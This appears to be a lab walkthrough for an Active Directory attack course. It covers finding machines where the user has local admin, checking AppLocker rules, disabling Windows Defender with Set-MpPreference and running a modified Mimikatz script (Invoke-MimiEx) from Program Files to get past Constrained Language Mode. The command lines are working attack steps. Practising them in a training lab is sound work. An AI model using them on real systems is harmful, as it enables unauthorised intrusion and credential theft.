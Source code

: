# Derivative Local Admin

Now moving on to the next task, we need to escalate to domain admin using derivative local admin. Let’s find out the machines on which we have local admin privileges. On a PowerShell session started using Invisi-Shell, enter the following command. 
```
PS C:\AD\Tools> . C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1 
PS C:\AD\Tools> Find-PSRemotingLocalAdminAccess dcorp-adminsrv [snip] 
```

![image](https://github.com/user-attachments/assets/0e10ea8b-520c-4364-9ceb-8c9e08bc27ac)

We have local admin on the dcorp-adminsrv. You will notice that any attempt to run Loader.exe (to run SafetKatz from memory) results in error  'This program is blocked by group policy. For more information, contact your system administrator'. Any attempts to run Invoke-Mimi on dcorp-adminsrv results in errors about language mode. This could be because of an application allowlist on dcorp-adminsrv and we drop into a Constrained Language Mode (CLM) when using PSRemoting. 

Let's check if Applocker is configured on dcorp-adminsrv by querying registry keys. Note that we are assuming that reg.exe is allowed to execute: 
```
C:\AD\Tools>winrs -r:dcorp-adminsrv cmd 
Microsoft Windows [Version 10.0.20348.1249] 
(c) Microsoft Corporation. All rights reserved. 
C:\Users\studentx>reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2
reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2 
```
![image](https://github.com/user-attachments/assets/f4c5c8e4-d33a-4aa4-9a81-115216ab1bd4)

ooks like Applocker is configured. After going through the policies, we can understand that Microsoft Signed binaries and scripts are allowed for all the users but nothing else. However, this particular rule is overly permissive! 

![image](https://github.com/user-attachments/assets/ac4cff68-a674-4ad2-91a6-a51324bfcb29)

A default rule is enabled that allows everyone to run scripts from the C:\ProgramFiles folder!  
We can also confirm this using PowerShell commands on dcrop-adminsrv. Run the below commands from a PowerShell session as studentx: 

![image](https://github.com/user-attachments/assets/51e5561f-bc8f-40a9-8e57-5ca9948d3631)

Here, Everyone can run scripts from the Program Files directory. That means, we can drop scripts in the Program Files directory there and execute them. But we first need to disable Windows Defender on the  dcorp-adminsrv server: 

```
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Set-MpPreference DisableRealtimeMonitoring $true -Verbose 
VERBOSE: Performing operation 'Update MSFT_MpPreference' on Target 'ProtectionManagement'.
```
Also, we cannot run scripts using dot sourcing (. .\Invoke-Mimi.ps1) because of the Constrained Language Mode. So, we must modify Invoke-Mimi.ps1 to include the function call in the script itself and transfer the modified script (Invoke-MimiEx.ps1) to the target server.  


[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student157\Documents> $proc = Get-Process
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student157\Documents> exit
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student157\Documents> $proc
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student157\Documents> whoami /priv
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student157\Documents> hello
[dcorp-adminsrv]: PS C:\Program Files> .\Invoke-MimiEx.ps1 
